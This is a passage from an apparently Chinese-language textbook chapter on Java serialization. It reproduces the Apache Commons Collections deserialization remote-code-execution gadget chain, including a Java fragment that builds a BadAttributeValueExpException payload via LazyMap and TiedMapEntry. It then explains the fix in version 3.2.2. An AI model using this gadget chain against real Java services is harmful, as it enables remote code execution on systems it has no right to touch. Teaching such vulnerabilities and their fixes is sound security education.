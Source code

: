 ### 第12章 序列化
通过反射就能实现，代码如下：
```java
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
// val是私有变量，所以利用下面的方法进行赋值
Field valfield = poc.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(poc, entry);
```

这时攻击就非常简单了，把BadAttributeValueExpException对象序列化成字符串，只要这个字符串的内容被反序列化，就实现了远程攻击，如图12 - 11所示。
（此处文字描述图12 - 11内容：展示利用BadAttributeValueExpException实现攻击的完整代码及计算器界面  ）

![image](https://github.com/user-attachments/assets/bdba2f84-30d0-41a1-95a4-68389914e080)


#### 12.7.3 解决问题
以上我们复现了这个Apache Commons Collections类库带来的一个和反序列化有关的远程代码执行漏洞。

通过对这个漏洞的分析，我们可以发现，只要有一个地方的代码写得不够严谨，就可能会被攻击者利用。

因为这个漏洞影响的范围很大，所以很快就被修复了，开发者只需要将Apache Commons Collections类库升级到3.2.2版本，即可避免这个漏洞，如图12 - 12所示。
（此处文字描述图12 - 12内容：展示Apache Commons Collections 3.2.2版本发布说明，包含兼容性和安全变更内容  ）

![image](https://github.com/user-attachments/assets/1b8fcd23-ed56-42af-b44c-e3ad4b964673)


3.2.2版本对一些不安全的Java类的序列化支持增加了开关，默认为关闭状态。涉及的类包括CloneTransformer、ForClosure、InstantiateFactory、InstantiateTransformer、InvokerTransformer、PrototypeCloneFactory、PrototypeSerializationFactory和WhileClosure。

例如，在InvokerTransformer类中，实现了和序列化有关的writeObject()和readObject()方法。
```java
/**
 * Overrides the default writeObject implementation to prevent
 * serialization (see COLLECTIONS-580).
 */
private void writeObject(ObjectOutputStream os) throws IOException {
    FunctorUtils.checkUnsafeSerialization(InvokerTransformer.class);
    os.defaultWriteObject();
}
```
```java
/**
 * Overrides the default readObject implementation to prevent
 * de-serialization (see COLLECTIONS-580).
 */
private void readObject(ObjectInputStream is) throws ClassNotFoundException, IOException {
    FunctorUtils.checkUnsafeSerialization(InvokerTransformer.class);
    is.defaultReadObject();
}
```
